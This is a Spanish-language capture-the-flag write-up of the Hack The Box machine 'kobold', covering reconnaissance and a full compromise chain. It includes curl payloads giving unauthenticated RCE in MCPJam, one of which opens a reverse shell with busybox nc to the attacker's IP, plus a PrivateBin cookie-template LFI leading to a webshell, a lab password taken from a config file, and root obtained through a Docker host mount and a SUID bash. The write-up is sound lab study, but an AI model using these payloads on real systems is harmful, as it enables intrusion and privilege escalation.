





Resumen de Explotación
Resumen del proceso: La máquina objetivo exponía varios servicios: un servidor nginx en los puertos 80/443 que redirigía a kobold.htb, y un servicio Arcane (gestor de contenedores Docker similar a Portainer) en el puerto 3552. Mediante fuzzing de virtual hosts se descubrieron dos subdominios adicionales: mcp.kobold.htb ejecutando MCPJam 1.4.2 y bin.kobold.htb ejecutando PrivateBin 2.0.2.
El acceso inicial se consiguió explotando el CVE-2026-23744 en MCPJam 1.4.2, donde el endpoint /api/mcp/connect carecía de autenticación y permitía ejecución de comandos arbitrarios, obteniendo una shell como el usuario ben.
Para el movimiento lateral, se aprovechó una vulnerabilidad de LFI en PrivateBin (CVE-2025-64714) que, combinada con la capacidad de escribir archivos en el directorio /privatebin-data/data/ compartido con el contenedor Docker, permitió obtener RCE dentro del contenedor de PrivateBin. Desde allí se extrajeron credenciales del fichero de configuración /srv/cfg/conf.php que dieron acceso al panel de Arcane.
Finalmente, la escalada a root se realizó creando un volumen en Arcane que mapeaba la raíz del host (/) y montándolo en un nuevo contenedor. Desde dentro del contenedor privilegiado se asignó el bit SUID a /bin/bash del host, permitiendo obtener una shell como root.
Tecnologías/Exploits: MCPJam RCE sin autenticación (CVE-2026-23744), PrivateBin LFI mediante cookie template (CVE-2025-64714), escalada de privilegios mediante Arcane Docker manager con montaje de volúmenes del host.
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar los puertos abiertos y los servicios que se ejecutan en la máquina objetivo:
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 8c:45:12:36:03:61:de:0f:0b:2b:c3:9b:2a:92:59:a1 (ECDSA)
|_ 256 d2:3c:bf:ed:55:4a:52:13:b5:34:d2:fb:8f:e4:93:bd (ED25519)
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
443/tcp open ssl/http nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
3552/tcp open http Golang net/http server
|_http-title: Site doesn't have a title (text/html; charset=utf-8).Añado kobold.htb al fichero /etc/hosts. El escaneo revela varios servicios interesantes: SSH en el puerto 22, un servidor nginx en los puertos 80 y 443 que redirige a https://kobold.htb/, y un servicio web en Go en el puerto 3552.
Un detalle muy relevante del certificado SSL es el registro DNS:*.kobold.htb, que indica la posible existencia de virtual hosts. Aunque el puerto 53 (DNS) está cerrado, este wildcard sugiere que merece la pena hacer fuzzing de subdominios.
Enumeración de Virtual Hosts
Lanzo wfuzz para descubrir virtual hosts configurados bajo kobold.htb:
wfuzz -c -z file,/usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 10 -H "Host: FUZZ.kobold.htb" https://kobold.htbRápidamente encuentro dos subdominios:
000000606: 200 14 L 34 W 466 Ch "mcp"
000009838: 200 385 L 1607 W 24392 Ch "bin"Añado ambos al /etc/hosts y procedo a investigar cada servicio.
Enumeración de Servicios
Arcane - Puerto 3552
En el puerto 3552 se encuentra un servicio llamado Arcane, que es un gestor de contenedores Docker similar a Portainer:

En el footer se indica la versión 1.13.0. Busco vulnerabilidades y encuentro un RCE reciente, pero está parcheado precisamente en esta versión: https://dbugs.ptsecurity.com/vulnerability/PT-2026-3097. De momento descarto esta vía.
PrivateBin - bin.kobold.htb
En bin.kobold.htb se ejecuta PrivateBin versión 2.0.2, un software similar al mítico Pastebin que permite compartir texto de forma temporal y cifrada.
Para PrivateBin encuentro una vulnerabilidad de LFI que afecta a esta versión: CVE-2025-64714. La vulnerabilidad permite incluir archivos PHP arbitrarios si templateselection está habilitado en la configuración, ya que el servidor confía en la cookie template y la utiliza para incluir el fichero PHP referenciado.
"If
templateselectionis enabled in the configuration, the server trusts thetemplatecookie and includes the referenced PHP file. An attacker can read sensitive data or, if they manage to drop a PHP file elsewhere, gain remote code execution."
En la página oficial de PrivateBin se detallan los pasos de reproducción: https://privatebin.info/reports/vulnerability-2025-11-12-templates.html
Los pasos son sencillos: enviar una petición con una cookie template maliciosa como template=../cfg/conf, donde la ruta relativa apunte a un archivo PHP (sin extensión). Se indica que no es posible acceder a otros archivos PHP de PrivateBin ya que da error 500, pero quizá se podría acceder a otros scripts PHP del sistema. Esto es interesante, pero antes de tirar por este camino investigo el servicio MCPJam.
MCPJam - mcp.kobold.htb
En mcp.kobold.htb se ejecuta MCPJam versión 1.4.2. MCPJam es un software para configurar servidores MCP (Model Context Protocol) que se utilizan con LLMs para potenciar su efectividad dándoles contexto adicional concreto, por ejemplo de algún tipo de tecnología específica.
Para MCPJam encuentro una vulnerabilidad reciente de RCE que afecta exactamente a la versión 1.4.2: CVE-2026-23744.
El problema es que el endpoint /api/mcp/connect no tiene ningún tipo de autenticación y permite ejecutar comandos arbitrarios. Además, hasta esta versión, el servicio se exponía por defecto en todas las interfaces de red (0.0.0.0), lo que significa que cualquier dispositivo en la red tiene RCE sobre una máquina que hostee este servicio.
Encuentro una PoC sencilla en este advisory: https://github.com/advisories/GHSA-232v-j27c-5pp6
Acceso Inicial - Explotando MCPJam (CVE-2026-23744)
Siguiendo la PoC, primero confirmo la ejecución remota de código enviando un curl a mi servidor:
curl https://mcp.kobold.htb/api/mcp/connect \
--header "Content-Type: application/json" \
--data '{"serverConfig":{"command":"curl","args":["10.10.14.129"],"env":{}},"serverId":"mytest"}' -kLa respuesta del servidor indica un error de conexión MCP (ya que curl no es un servidor MCP válido), pero en mi servidor HTTP recibo la petición, confirmando el RCE:
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.14.176 - - "GET / HTTP/1.1" 200 -Ahora envío el payload con una reverse shell usando busybox nc:
curl https://mcp.kobold.htb/api/mcp/connect \
--header "Content-Type: application/json" \
--data '{"serverConfig":{"command":"busybox","args":["nc", "10.10.14.129", "443", "-e", "sh"],"env":{}},"serverId":"mytest"}' -kConsigo acceso como el usuario ben y obtengo la primera flag.
Enumeración Interna
Una vez dentro, compruebo la información del usuario y los demás usuarios del sistema:
ben@kobold:~$ id
uid=1001(ben) gid=1001(ben) groups=1001(ben),37(operator)
ben@kobold:~$ id alice
uid=1002(alice) gid=1002(alice) groups=1002(alice),37(operator),111(docker)Tanto ben como alice están en el grupo operator. Además, alice pertenece al grupo docker, lo cual es muy interesante de cara a la escalada de privilegios.
Encuentro tres puertos TCP expuestos localmente:
tcp LISTEN 0 511 127.0.0.1:6274 0.0.0.0:*
tcp LISTEN 0 4096 127.0.0.1:8080 0.0.0.0:*
tcp LISTEN 0 4096 127.0.0.1:43699 0.0.0.0:*Tras buscar por la máquina, lo único que me llama la atención es que el grupo operator es dueño de un directorio en la raíz: /privatebin-data. Dentro hay varios directorios, pero a cfg no tengo permiso de lectura. A certs y data sí tengo acceso, aunque los archivos que contienen no parecen tener información útil directamente.
Movimiento Lateral - PrivateBin LFI a RCE (CVE-2025-64714)
Recupero la vulnerabilidad de LFI que encontré antes en PrivateBin. Ahora que tengo acceso al sistema de archivos, pruebo a crear un archivo shell.php con una webshell en /tmp y /dev/shm, e intento acceder modificando el contenido de la cookie template como indica la PoC, pero no funciona.
Esto es extraño, ya que cualquier usuario debería tener acceso a esos directorios. Lo que se me ocurre es que PrivateBin esté corriendo en un contenedor Docker (ya que sé que Docker existe en la máquina), y que algunos ficheros bajo /privatebin-data se estén sincronizando con los contenidos del contenedor mediante un volumen compartido.
Si mi suposición es correcta, puedo colocar la webshell en /privatebin-data/data/ y luego indicar ese archivo usando el valor ../data/shell en la cookie template. Pruebo a hacerlo y efectivamente, consigo una webshell funcional:

Mediante esta webshell envío una reverse shell y accedo al contenedor, donde aparezco en /var/www. Busco el archivo de configuración con find:
find / -iname "*conf.php*" 2>/dev/null
/srv/cfg/conf.phpDentro de este archivo de configuración encuentro unas credenciales:
ComplexP@sswordAdmin1928Pruebo las credenciales para los usuarios del sistema pero no funcionan. Sin embargo, sí funcionan para el servicio de Arcane del puerto 3552.
Escalada de Privilegios - Arcane Docker Manager
A partir de aquí la escalada de privilegios es clara: tener acceso a un gestor de contenedores Docker con la capacidad de crear volúmenes y contenedores equivale a tener acceso root en el host. La estrategia es:
- Crear un volumen que mapee el contenido completo del host en el contenedor
- Crear un contenedor con una imagen base existente, root como usuario por defecto, y que use ese volumen
- Desde dentro del contenedor, asignar el bit SUID a la bash del host para escalar a root
Primero creo el volumen con las opciones type=none, o=bind y device=/ para montar la raíz del host:

Luego creo el contenedor indicando root como usuario por defecto y seleccionando una imagen existente en Docker:

Y le asigno el volumen que he creado, mapeándolo a un directorio dentro del contenedor:

Ahora, desde dentro del contenedor puedo ver el sistema de archivos completo del host:
/var/www # ls -lah /xd
total 100K
drwxr-xr-x 22 root root 4.0K Mar 16 20:57 .
drwxr-xr-x 1 root root 4.0K Mar 22 22:28 ..
drwxr-xr-x 3 root root 4.0K Mar 16 20:57 app
lrwxrwxrwx 1 root root 7 Apr 22 2024 bin -> usr/bin
drwxr-xr-x 2 root root 4.0K Feb 21 2025 boot
dr-xr-xr-x 2 root root 4.0K Mar 15 21:23 cdromSimplemente le añado el bit SUID a la bash del sistema host:
/var/www # chmod u+s /xd/bin/bashDe vuelta como el usuario ben, ejecuto una bash privilegiada y consigo acceso como root:
ben@kobold:/privatebin-data/data$ bash -p
bash-5.2# whoami
rootCon esto obtengo la flag de root y completo la máquina.